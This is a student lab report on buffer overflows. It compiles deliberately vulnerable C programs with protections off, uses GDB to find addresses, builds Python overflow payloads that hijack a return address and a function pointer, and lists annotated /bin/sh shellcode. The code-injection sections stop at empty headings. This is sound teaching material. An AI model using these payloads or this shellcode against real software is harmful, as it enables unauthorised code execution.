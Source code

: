 # 21110073 Le Bui Huu Phuc
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
- Compile the program using the following command:
![img1.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/fd7842bc5625ec9590414f935437903fb41a70d5/A%CC%89nh%20ma%CC%80n%20hi%CC%80nh%202024-06-27%20lu%CC%81c%2020.02.43.png)
- This command disables stack protection and sets the boundary.
![img1.2](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.2.png?raw=true)
- Use the GDB command disas to get the address of push ebp in the secretFunc() function. The address obtained is:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.3.png?raw=true)
- 0x0804846b
- Create the input payload using Python and execute the program with the crafted input:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.4.png?raw=true)
- Here, the address 0x0804846b is appended to the payload, and ./bof1.o is executed with 1 as the argument.
## 1.2. bof2.c
- Crafting the Payload
+ Create a string that is 44 bytes long, where the first 40 bytes fill buf, and the next 4 bytes overwrite check with 0xdeadbeef. Python command to generate such a payload:
```python python -c "print('A'*40 + '\xef\xbe\xad\xde')" > input.txt ```
- Compile the Program:
```python gcc bof2.c -o bof2.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
- Run the Program:
``` ./bof1.o < input.txt```
![img2.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof2.1.png?raw=true)
## 1.3. bof3.c
### Key Points:
+ Buffer Definition: char buf[128]; creates a buffer of 128 bytes.
+ Function Pointer: void (*func)() = sup; initializes func to point to the sup function.
+ Buffer Overflow: fgets(buf, 133, stdin); reads up to 132 characters into buf, which can overflow the buffer and overwrite adjacent memory, including the func pointer.
+ Function Call: func(); calls the function pointed to by func.
### Exploitation Strategy
- Overflow buf to overwrite the func pointer with the address of the shell function.
- Ensure that after the overflow, func points to shell.
### Steps to Exploit
+ Find the Address of the shell Function: ``` gcc bof3.c -o bof3.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
![img](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof3.1.png?raw=true)
- Compile the program with debug information: ```gdb bof3.o
(gdb) disas shell```
### Determine the Offset:
- Since buf is 128 bytes and func is immediately after buf, the offset to overwrite func will be 128 bytes.
### Create the Payload:

- The payload should be 128 bytes of filler followed by the address of shell.
- Use Python to create the payload: ```python -c "print('A'*128 + '\x5b\x84\x04\x08')" > input.txt```
### Run the Program:
```./bof3.o < input.txt```
# Task 2: Code injection
## 2.1. Preparing shell code
### Create shellcode.txt
```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80 ```
```assembly
\x31\xc0                    ; xor eax, eax        ; Clear EAX
\x50                        ; push eax            ; Push 0 onto the stack (NULL terminator)
\x68\x2f\x2f\x73\x68        ; push 0x68732f2f     ; Push "//sh" onto the stack
\x68\x2f\x62\x69\x6e        ; push 0x6e69622f     ; Push "/bin" onto the stack
\x89\xe3                    ; mov ebx, esp        ; Set EBX to point to the start of the string
\x50                        ; push eax            ; Push 0 onto the stack (NULL terminator for argv)
\x53                        ; push ebx            ; Push the pointer to "/bin//sh" onto the stack
\x89\xe1                    ; mov ecx, esp        ; Set ECX to point to the start of the argv array
\x31\xd2                    ; xor edx, edx        ; Clear EDX (NULL terminator for envp)
\x31\xc0                    ; xor eax, eax        ; Clear EAX
\xb0\x0b                    ; mov al, 0xb         ; Set EAX to 11 (execve syscall number)
\xcd\x80                    ; int 0x80            ; Trigger interrupt to execute the syscall
```
## 2.2. Preparing the payload
## 2.3. Code injection
